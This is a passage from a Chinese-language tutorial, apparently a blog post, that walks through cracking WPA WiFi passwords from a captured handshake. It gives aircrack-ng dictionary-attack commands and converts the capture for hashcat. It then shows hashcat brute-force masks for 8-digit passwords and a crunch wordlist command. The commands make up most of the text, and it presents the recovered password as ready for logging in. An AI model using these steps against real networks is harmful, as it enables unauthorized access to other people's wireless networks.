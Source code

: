 **第一个终端上**如果出现标红区域这一条数据，就说明已经抓到了设备与热点之间的握手包并存放在了此目录下，如果没有显示，可以按上一步多发送几次，再来查看

**Step8：接下来我们进行爆破，首先要准备一个字典**

```
aircrack-ng -w pass.txt wifi1-01.cap  //-w参数指定密码字典，wifi1-01.cap为握手包
或者
aircrack-ng- a2 -b B4:CD:27:DF:BF:AE -w pass.txt wifi1-01.cap  		//-a2代表WPA的握手包 -b指定要破解的wifi BSSID  -w指定字典文件
```

![](https://img.arctee.cn/one/202207111746485.png)

这时候会惊喜的发现密码已经爆破完毕了，速度还是挺快的，使用密码即可登录

**Step9：无线网卡退出监听模式**

```
airmon-ng stop wlan0mon
```


### 掌法二：aircrack-ng 抓包 + hashcat 破解（Kail Linux）

> [Hashcat的使用手册总结](https://xz.aliyun.com/t/4008#toc-2)
> 优势：
> 速度提高数倍
> 可以用gpu破解

首先要把 **airodump** 抓取的**cap文件转化为hccap**格式， 可以在线转换， 在线转换的地址为：[https://hashcat.net/cap2hccap/](https://hashcat.net/cap2hccap/)， 也可以用**aircrack-ng**转换

```
aircrack-ng <out.cap> -J <out.hccap>
```

或者使用 hashcat 命令，第一个参数： -m 2500 为破解的模式为 WPA/PSK 方式 ，第二个参数： hccap 格式的文件是刚刚转化好的文件， 第三个参数： **dics.txt**为字典文件 :

```
hashcat -m 2500 out.hccap.hccap  dics.txt -o results
```

破解的进度通过按键盘上的 **s** 键即可查看：
![](https://img.arctee.cn/one/202207102316782.png)

1. 破解纯数字密码
```
hashcat -m 2500 -a 3 handshake.hccap ?d?d?d?d?d?d?d?d		//?d?d?d?d?d?d?d?d代表8为数字
```

2. 使用 crunch 生成字典

kali 系统中，通过 crunch 生成字典， 要生成 8 位纯数字的字典，使用以下命令，
```
crunch 8 8  0123456789 -o dic.txt
```

8 8 代表最小位数为8，最大位数也为8， 0123456789为字典中的数字 , -o dic.txt 说明要把字典生成到 dic.txt， 生成的纯数字字典有 900M
